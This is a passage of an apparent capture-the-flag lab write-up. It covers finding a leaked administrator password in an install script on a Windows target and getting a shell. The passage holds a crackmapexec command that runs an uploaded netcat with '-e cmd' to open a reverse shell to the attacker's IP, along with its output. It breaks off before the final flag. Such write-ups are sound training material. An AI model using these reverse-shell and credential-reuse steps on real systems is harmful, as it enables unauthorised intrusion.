 I start looking around the file system and come across the **C:\Installs** directory, which is likely the SMB share we saw earlier.

Looking at **Install Guide.txt** with #11 being the important point:

```
1) Disble Windows Firewall
2) Disable Defender ( it sees our remote install tools as hack tools ) 
3) Set the Admin password to the same as the setup script
4) RunAs Administrator on the setup scirpt
5) Share out the images directory as images$ to keep hidden 
6) Reboot
7) Check and fix launch of firefox
8) Check VNC access
9) Advise customer of IP to point other smart devices to http://thismachine/
10) Advise customer of the file share \\thismachine\images$
11) Remove these files as they contain passwords used with other customers.
```

They clearly didn't remove the files since **Install_www_and_deploy.bat** has the following in it:

```
psexec -accepteula -nobanner -u administrator -p <REDACTED> xampp-windows-x64-7.4.11-0-VC15-installer.exe   --disable-components xampp_mysql,xampp_filezilla,xampp_mercury,xampp_tomcat,xampp_perl,xampp_phpmyadmin,xampp_webalizer,xampp_sendmail --mode unattended --launchapps 1
```

Looks like we found the administrator password! That gives us the answer to the 7th objective: "What is the Administrators Password?".

This also answers the 8th objective: "What executable is used to run the installer with the Administrator username and password?".

<br>

## Administrator

I upload an .exe version of netcat over to the system via the SMB share and start a listener up on my system, then run:

`crackmapexec smb 10.10.173.8 -u administrator -p <REDACTED> -x 'C:\xampp\htdocs\images\nc.exe -e cmd 10.6.127.197 4444'`

```
listening on [any] 4444 ...
connect to [10.6.127.197] from (UNKNOWN) [10.10.173.8] 50057
Microsoft Windows [Version 10.0.18362.1256]
(c) 2019 Microsoft Corporation. All rights reserved.

C:\>whoami
whoami
desktop-997gg7d\administrator
```

Changing over to the administrators desktop directory shows us the **admin_flag.txt** giving us the answer to the last objective:
